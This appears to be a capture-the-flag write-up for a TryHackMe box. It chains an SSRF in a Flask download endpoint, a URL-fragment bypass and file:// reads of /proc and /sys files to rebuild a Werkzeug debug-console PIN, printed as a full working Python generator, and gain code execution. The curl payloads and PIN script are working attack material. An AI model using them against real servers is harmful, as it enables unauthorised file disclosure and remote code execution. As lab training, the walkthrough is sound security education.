










This box is rated hard difficulty on THM. It involves us finding an SSRF vulnerability that allows access to internal resources on the web server. Using that to disclose files lets us enumerate the necessary values to generate a PIN used in authentication at a Werkzeug debug console. Finally we execute arbitrary Python expressions and gain Remote Code Execution on the system.

_Dig deeper and try to uncover the flag hidden behind the scenes._

## Host Scanning
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns nothing.

```
$ sudo nmap -p22,80 -sCV 10.67.143.241 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-31 00:26 -0400
Nmap scan report for 10.67.143.241
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 95:af:4e:f4:34:97:07:84:ca:c7:af:48:07:ee:fd:a0 (RSA)
|   256 5b:73:08:51:80:a0:1e:6c:1a:a2:3e:d9:1b:6f:6d:52 (ECDSA)
|_  256 7b:37:e4:8a:ab:26:98:cf:98:0e:49:22:18:30:65:34 (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.10.7)
|_http-title: Jay Green
|_http-server-header: Werkzeug/0.16.0 Python/3.10.7
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.55 seconds
```

There are just two ports open:
- SSH on port 22
- An Werkzeug web server on port 80

Not a whole lot we can do with that version of OpenSSH without credentials, so I fire up Ffuf to search for subdirectories and Vhosts in the background before heading over to the website.

```
$ ffuf -u http://10.67.143.241/FUZZ -w /opt/seclists/directory-list-2.3-medium.txt   

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.67.143.241/FUZZ
 :: Wordlist         : FUZZ: /opt/seclists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

download                [Status: 200, Size: 20, Words: 4, Lines: 1, Duration: 52ms]
admin                   [Status: 200, Size: 48, Words: 6, Lines: 1, Duration: 43ms]
console                 [Status: 200, Size: 1985, Words: 411, Lines: 53, Duration: 45ms]
                        [Status: 200, Size: 6899, Words: 884, Lines: 169, Duration: 47ms]
:: Progress: [220546/220546] :: Job [1/1] :: 472 req/sec :: Duration: [0:08:17] :: Errors: 0 ::
```

## Web Enumeration
The landing page shows a personal page that hosts their photographing portfolio and also provides a way to download their resume.


### Admin Page
The sidebar menu gives a few links to static places on the main page, along with an admin redirect that displays a message disclosing that it is only reachable from localhost.



I capture a request to this endpoint in hopes that we can perform host header manipulation to gain access. Among the popular tricks to bypass localhost authentication is supplying a loopback address in an `X-Forwarded-For` header, which may trick the server into identifying our request as coming from elsewhere, however nothing seemed to work. 



### Console Panel
My directory searches did find a console panel that was PIN protected, but this is standard for Werkzeug applications and allows for quick access to debug Python expressions. I have seen this page leak hostnames in the footer before so it's worth checking out when it pops up.



Further research revealed that this PIN is deterministic and is comprised of nine digits following a `XXX-XXX-XXX` format. It can be found normally in the server shell's stdout, making this technically vulnerable but not worth spending time on right now. 

## SSRF
The only other thing on this site was the presence of a download API that is meant to fetch a PDF, more specifically Jay's resume document. Notably, this request takes in two parameters:
- `server` which specifies the machine to fetch the resource from
- `id` which is the resource's identifier

```
/download?server=secure-file-storage.com:8087&id=75482342
```

### Discovering Request Logic
The original request points toward a file server on port 8087, which is not available externally. Attempting to fetch the admin page on port 80, which was not accessible from outside localhost throws a 500 Internal Server error and reveals that the application is using PycURL to make these requests.



Knowing that we can make requests to outbound machines, I stand up a Netcat listener and supply my attacking IP in hopes to catch a connection.



This succeeds and gives us a custom API key header, which also serves as our first flag. Inspecting the server's request shows that it looks inside of the `/public-docs-k057230990384293` directory for a PDF that matches our ID parameter.

```
/public-docs-k057230990384293/75482342.pdf 
```

While attempting to provide an ID that doesn't exist, I'm redirected to strange error page that reveals how the application builds the requests.



Our previous attempts show that we have full control over the server and id parameters, however the app appends the .pdf extension to each request and only accepts literal integers for the id.

```
crl.setopt(crl.URL, server + '/public-docs-k057230990384293/' + filename)
```

### URI Fragmentation
There are no limitations on the server parameter, which means we can manipulate the URL parser into treating everything after the server parameter as apart of a fragment identifier. I discovered this method whilst thinking of how the concept of inline comments in SQL injection attacks could be transferred to other areas.

This can be a bit confusing if you have little web application knowledge so allow me to explain further. Before any HTTP request is sent, the URL parser (browser, backend HTTP client, etc.) splits the URL into different components:

```
scheme://host/path#fragment
```

The important thing to note here is that URI fragments do not get sent to the server and remain client-side only. This behavior is seen on static webpages when we click a link that automatically scrolls down to a certain section of the site.

In our case, we are cutting down the full request from `/download?server=secure-file-storage.com:8087&id=123456` to just the sever parameter as `/download?server=secure-file-storage.com:8087#`. Note that we must percent-encode the `#` character, which is `%23` as we are passing it into a URL.

This effectively upgrades our SSRF requests to fetch local resources other than only PDFs in a specific directory. Let's test it out by making a request to the admin page. 

```
/download?server=secure-file-storage.com:8087/admin%23&id=1
```

A bit of playing around with it showed that the document with an ID of 1 on port 8087 grants us the second flag.



### Reading Files on Server
If we recall, the application uses PycURL to make requests which supports the use of the `file://` protocol. I make use of that to read the application's source code at `/usr/src/app/app.py` that can be found in the output of error pages from earlier.

```
$ curl -s 'http://10.67.143.241/download?server=file:///usr/src/app/app.py%23&id=123'
import os
import pycurl
from io import BytesIO
from flask import Flask, send_from_directory, render_template, request, redirect, url_for, Response

app = Flask(__name__, static_url_path='/static')

@app.route("/")
def index():
    return render_template("index.html")

@app.route("/admin")
def admin():
    if request.remote_addr == '127.0.0.1':
        return send_from_directory('private-docs', 'flag.pdf')
    return "Admin interface only available from localhost!!!"

@app.route("/download")
def download():
    file_id = request.args.get('id','')
    server = request.args.get('server','')

    if file_id!='':
        filename = str(int(file_id)) + '.pdf'

        response_buf = BytesIO()
        crl = pycurl.Curl()
        crl.setopt(crl.URL, server + '/public-docs-k057230990384293/' + filename)
        crl.setopt(crl.WRITEDATA, response_buf)
        crl.setopt(crl.HTTPHEADER, ['X-API-KEY: THM{SECRET}'])
        crl.perform()
        crl.close()
        file_data = response_buf.getvalue()

        resp = Response(file_data)
        resp.headers['Content-Type'] = 'application/pdf'
        resp.headers['Content-Disposition'] = 'attachment'
        return resp
    else:
        return 'No file selected... '

@app.route('/public-docs-k057230990384293/<path:path>')
def public_docs(path):
    return send_from_directory('public-docs', path)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8087, debug=True)
```

This doesn't really return much other than a debug option being set to true, which explains the console page found in my initial enumeration. Since we had ways to read files on the server, I tried the typical routes to get a shell. Reading `/etc/passwd` shows that there are no users besides root to grab SSH keys and log poisoning looked to be out of reach.

```
$ curl -s 'http://10.67.143.241/download?server=file:///etc/passwd%23&id=123'
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
...
[CUT]
...
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
```

## Werkzeug Console PIN
At this point I was stuck, until remembering that the console's PIN was deterministic and can be generated if we know the right information. I would have done this earlier, but Werkzeug creates it using a mixture of different values, such as username, file paths, app name, etc.

### Generating Deterministic PIN
Whilst diving further into this subject, I came across this [Hacktricks article](https://hacktricks.wiki/en/network-services-pentesting/pentesting-web/werkzeug.html#pin-protected---path-traversal) which provides a Python script that can be used to generate the PIN, given the correct values.

```
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

The only things we need to replace are the values in the `probably_public_bits` and `private_bits` lists. Luckily we can use the SSRF vulnerability to grab all needed information to authenticate to the console. Another thing to point out is that versions prior to Werkzeug v2.0.0 use the MD5 hashing algorithm instead of SHA-1. Looking back at response headers shows that this runs v0.16.0, meaning we have to change the script's hashing function to match it.

### probably_public_bits
Going down the list of values needed to enumerate, we can find the username by displaying the `/proc/self/status` file. Note that we need to base this off of the UID rather than the current process's name.

```
$ curl -s 'http://10.67.143.241/download?server=file:///proc/self/status%23&id=123'
Name:   python
Umask:  0022
State:  S (sleeping)
Tgid:   7
Ngid:   0
Pid:    7
PPid:   1
TracerPid:      0
Uid:    0       0       0       0
Gid:    0       0       0       0
FDSize: 64
Groups: 0 1 2 3 4 6 10 11 20 26 27 
NStgid: 7
NSpid:  7
NSpgid: 1
NSsid:  1
VmPeak:    55984 kB
...
[CUT]
...
Speculation_Store_Bypass:       vulnerable
Cpus_allowed:   3
Cpus_allowed_list:      0-1
Mems_allowed:   00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000001
Mems_allowed_list:      0
voluntary_ctxt_switches:        17658
nonvoluntary_ctxt_switches:     2011
```

That shows all 0s which matches to root, as seen in `/etc/passwd`. We can leave the second and third values in the public list since it's using Flask as well.

As for the fourth one, we can refer back to the error page to find the correct `getattr(mod, '__file__', None)` value.



### private_bits
Moving on, the private bits are a bit more complicated. The Hacktricks article discloses that the value of `str(uuid.getnode())` is the MAC address of the interface in use, translated to decimal format.

We can go about finding this by finding the network interface name from `/proc/net/arp`.

```
$ curl -s 'http://10.67.157.167/download?server=file:///proc/net/arp%23&id=123'
IP address       HW type     Flags       HW address            Mask     Device
172.20.0.1       0x1         0x2         02:42:f9:13:33:6f     *        eth0
```

Then resolving the MAC address through `/sys/class/net/eth0/address` and translating it into decimal format via Python.

```
$ curl -s 'http://10.67.157.167/download?server=file:///sys/class/net/eth0/address%23&id=123'
02:42:ac:14:00:02

$ python3                                                                                  
Python 3.13.12 (main, Feb  4 2026, 15:06:39) [GCC 15.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> print(0x0242ac140002)
2485378088962
```

And last but not least, we must find the machine ID, which Hacktricks describes as concatenated data from `/etc/machine-id` or `/proc/sys/kernel/random/boot_id` with the first line of `/proc/self/cgroup` post the last slash (/).

Making a request to `/etc/machine-id` returns nothing, meaning that it doesn't exist on the system and we can just skip it altogether. This isn't a big deal because if we couldn't get it, neither can the code.

```
$ curl -s 'http://10.67.157.167/download?server=file:///etc/machine-id%23&id=123'

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"
  "http://www.w3.org/TR/html4/loose.dtd">
<html>
  <head>
    <title>pycurl.error: (37, &quot;Couldn't open file /etc/machine-id&quot;) // Werkzeug Debugger</title>
...
[CUT]
...
```

Next we must fetch the output from `/proc/sys/kernel/random/boot_id`.

```
$ curl -s 'http://10.67.157.167/download?server=file:///proc/sys/kernel/random/boot_id%23&id=123'
3341011c-5784-4a8b-9dc7-5ec402bb34bd
```

Finally we need to get the last section of the first line from `/proc/self/cgroup`.

```
$ curl -s 'http://10.67.157.167/download?server=file:///proc/self/cgroup%23&id=123'
12:freezer:/docker/77c09e05c4a947224997c3baa49e5edf161fd116568e90a28a60fca6fde049ca
11:perf_event:/docker/77c09e05c4a947224997c3baa49e5edf161fd116568e90a28a60fca6fde049ca
10:devices:/docker/77c09e05c4a947224997c3baa49e5edf161fd116568e90a28a60fca6fde049ca
9:cpuset:/docker/77c09e05c4a947224997c3baa49e5edf161fd116568e90a28a60fca6fde049ca
```

The `machine_id()` is comprised of the _boot_id_ value, along with the one just gathered from _cgroup_ appended to it.

### Correcting Script
Putting it all together, both bit lists should look something similar to:

```
probably_public_bits = [
    'root',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.10/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]
 
private_bits = [
    '2485378088962',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    '3341011c-5784-4a8b-9dc7-5ec402bb34bd77c09e05c4a947224997c3baa49e5edf161fd116568e90a28a60fca6fde049ca'  # get_machine>
]
```

Updating the original script with these values and making sure that it's using the MD5 hashing algorithm should give us a valid PIN for the console page.

```
import hashlib
from itertools import chain
probably_public_bits = [
    'root',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.10/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '2485378088962',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    '3341011c-5784-4a8b-9dc7-5ec402bb34bd77c09e05c4a947224997c3baa49e5edf161fd116568e90a28a60fca6fde049ca'  # get_machine_id(), /etc/machine-id
]

h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
# h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)

------------------------

$ python3 GeneratePIN.py                                 
134-038-673
```



Hmm, awkward. I tried reverting to using the SHA-1 algorithm and double checked all my bit list values but got nothing to work. Since the newer renditions of Werkzeug's debug console use SHA-1, I figured that the way they generated the PIN could also have been updated over the years.

Luckily, Werkzeug is open-source and we can parse through the necessary code on [Github](https://github.com/pallets/werkzeug/blob/0.16.0/src/werkzeug/debug/__init__.py).

```
def get_machine_id():
    global _machine_id
    rv = _machine_id
    if rv is not None:
        return rv

    def _generate():
        # docker containers share the same machine id, get the
        # container id instead
        try:
            with open("/proc/self/cgroup") as f:
                value = f.readline()
        except IOError:
            pass
        else:
            value = value.strip().partition("/docker/")[2]

            if value:
                return value

        # Potential sources of secret information on linux.  The machine-id
        # is stable across boots, the boot id is not
        for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
            try:
                with open(filename, "rb") as f:
                    return f.readline().strip()
            except IOError:
                continue

        # On OS X we can use the computer's serial number assuming that
        # ioreg exists and can spit out that information.
        try:
            # Also catch import errors: subprocess may not be available, e.g.
            # Google App Engine
            # See https://github.com/pallets/werkzeug/issues/925
            from subprocess import Popen, PIPE

            dump = Popen(
                ["ioreg", "-c", "IOPlatformExpertDevice", "-d", "2"], stdout=PIPE
            ).communicate()[0]
            match = re.search(b'"serial-number" = <([^>]+)', dump)
            if match is not None:
                return match.group(1)
        except (OSError, ImportError):
            pass
    ...
   [CUT]
    ...

    _machine_id = rv = _generate()
    return rv
```

Looking at the `get_machine_id()` and `_generate()` functions reveals that the older versions will only use the value from `/proc/self/cgroup`, provided that it can be read.

After updating our private bits to match that information, we can rerun the script and generate the real PIN for the console page, allowing access to execute Python expressions from the web interface. Below is my full working script for reference.

```
import hashlib
from itertools import chain
probably_public_bits = [
    'root',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.10/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '2485378088962',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    '77c09e05c4a947224997c3baa49e5edf161fd116568e90a28a60fca6fde049ca'  # get_machine_id(), /etc/machine-id
]

h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
# h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

After gaining access to this, we can simply import the OS module to execute commands and retrieve the final flag under the application's root directory.



That's all y'all, this box had me doing a deep dive on ways to generate that PIN but I had fun either way. This serves as a reminder to not leave debug options on in production environments because attacks like these are not far-fetched. I hope this was helpful to anyone following along or stuck and happy hacking.
